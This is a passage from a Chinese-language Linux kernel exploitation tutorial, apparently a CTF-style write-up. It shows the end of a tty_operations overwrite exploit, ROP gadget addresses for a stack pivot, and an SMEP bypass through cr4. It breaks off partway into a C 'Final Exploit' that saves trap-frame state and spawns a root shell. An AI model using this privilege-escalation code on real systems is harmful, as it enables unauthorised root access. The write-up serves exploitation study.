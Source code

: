 ```

    IO_value[3] = (size_t)Fake_tty_operations;
    ioctl(fd1, 0x30002, &amp;io);

    ioctl(fd2,0,0);
    return 0;
}
```

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-21-105300.png)

##### <a class="reference-link" name="%E6%89%A7%E8%A1%8CROP&amp;Bypass%20SEMP"></a>执行ROP&amp;Bypass SEMP

那么我们希望程序可以直接跳转到我们的`ROP Chain`来运行,此时我们就可以试图去迁移栈了，但是通过导出并寻找可用的`gadget`的过程，我们发现，没有对`rsp`操作的`gadget`，仅有对`esp`操作的`gadget`，并且我们在调试时发现了一个事实，`rax`事实上将存储我们执行的代码的地址，那么，我们就可以将栈迁移到我们已知的一个地址，这样，我们就可以执行我们的ROP链了。

**⚠️：我们在寻找`gadget`的时候可以很容易的发现`0xffffffff8112bc48 : mov esp, eax ; retf`这个`gadget`，但我们不首选使用这个，因为`retf`是远返回指令(`Return Far`)，这个指令将会从栈上弹一个值用来恢复`cs`段寄存器，我们对这个值是不可控的，因此可能会破坏`cs`段寄存器！**

我们最终选用`0xffffffff8101db17 : xchg eax, esp ; ret`，这将交换`eax`和`esp`这两个寄存器的值。

接下来绕过`SEMP`的思路还可以使用我们之前所述的思路，导出并寻找可用的`gadget`

```
0xffffffff8101f2f0 : mov cr4, rdi ; pop rbp ; ret
0xffffffff8107f460 : pop rdi ; ret
```

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stropts.h&gt;
#include &lt;pthread.h&gt;
struct trap_frame{
    void *rip;
    uint64_t cs;
    uint64_t rflags;
    void * rsp;
    uint64_t ss;
}__attribute__((packed));
struct trap_frame tf;

void launch_shell(){
    puts("[+] Now Root!");
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    asm(
        "mov %%cs,  %0n"
        "mov %%ss,  %1n"
        "mov %%rsp, %3n"
        "pushfqn"
        "popq %2" :"=r"(tf.cs),"=r"(tf.ss),"=r"(tf.rflags),"=r"(tf.rsp) :
```